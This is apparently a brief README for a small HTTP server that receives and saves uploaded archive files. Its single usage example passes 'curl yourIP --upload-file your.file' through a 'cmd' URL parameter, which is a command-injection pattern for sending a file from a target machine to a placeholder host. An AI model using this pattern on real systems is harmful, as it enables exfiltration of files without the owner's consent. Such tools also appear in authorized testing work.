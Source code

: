 # HTTPServer
HTTP server that can accept and save the archive file when it is sent over HTTP protocol

http ://site:port?cmd=curl+yourIP+--upload-file+your.file
